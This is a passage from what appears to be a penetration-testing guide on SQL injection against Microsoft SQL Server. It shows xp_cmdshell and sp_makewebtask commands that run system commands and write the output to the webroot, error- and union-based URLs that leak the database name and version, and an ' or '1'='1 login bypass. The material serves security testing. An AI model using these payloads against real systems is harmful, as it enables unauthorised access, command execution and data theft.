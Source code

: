 Below we show how to execute a shell command that writes the output of the command `dir c:\inetpub` in a browseable file, assuming that the web server and the DB server reside on the same host. The following syntax uses `xp_cmdshell`:

`exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\wwwroot\test.txt'--`

Alternatively, we can use `sp_makewebtask`:

`exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 'select * from master.dbo.sysobjects'--`

A successful execution will create a file that can be browsed by the pen tester. Keep in mind that `sp_makewebtask` is deprecated, and, even if it works in all SQL Server versions up to 2005, it might be removed in the future.

In addition, SQL Server built-in functions and environment variables are very handy. The following uses the function `db_name()` to trigger an error that will return the name of the database:

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20db_name())`

Notice the use of [convert](https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-2017):

`CONVERT ( data_type [ ( length ) ] , expression [ , style ] )`

`CONVERT` will try to convert the result of `db_name` (a string) into an integer variable, triggering an error, which, if displayed by the vulnerable application, will contain the name of the DB.

The following example uses the environment variable `@@version`, combined with a `union select`-style injection, in order to find the version of the SQL Server.

`/form.asp?prop=33%20union%20select%201,2006-01-06,2007-01-06,1,'stat','name1','name2',2006-01-06,1,@@version%20--`

And here’s the same attack, but using again the conversion trick:

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20@@VERSION)`

Information gathering is useful for exploiting software vulnerabilities at the SQL Server, through the exploitation of an SQL-injection attack or direct access to the SQL listener.

In the following, we show several examples that exploit SQL injection vulnerabilities through different entry points.

### Example 1: Testing for SQL Injection in a GET Request

The most simple (and sometimes most rewarding) case would be that of a login page requesting an username and password for user login. You can try entering the following string “’ or ‘1’=’1” (without double quotes):

`https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1`

If the application is using Dynamic SQL queries, and the string gets appended to the user credentials validation query, this may result in a successful login to the application.

### Example 2: Testing for SQL Injection in a GET Request

In order to learn how many columns exist

`https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`
